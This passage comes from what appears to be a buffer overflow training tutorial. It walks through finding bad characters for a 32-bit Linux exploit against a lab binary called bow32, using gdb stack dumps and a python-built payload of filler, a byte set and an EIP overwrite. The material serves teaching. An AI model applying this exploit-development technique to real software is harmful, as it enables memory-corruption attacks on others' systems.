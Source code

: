 The Stack now will look:
```console
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

Here it depends on our bytes' correct order in the variable CHARS to see if any character changes, interrupts, or skips the order. Now we recognize that after the `x08`, we encounter the `\x00` instead of the `\x09` as expected. This tells us that this character is not allowed here and must be removed accordingly.

Let's calculate again:
```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

Now send the CHAR without `\x00` and `\x09`:
```console
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

The Stack now will be:
```console
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
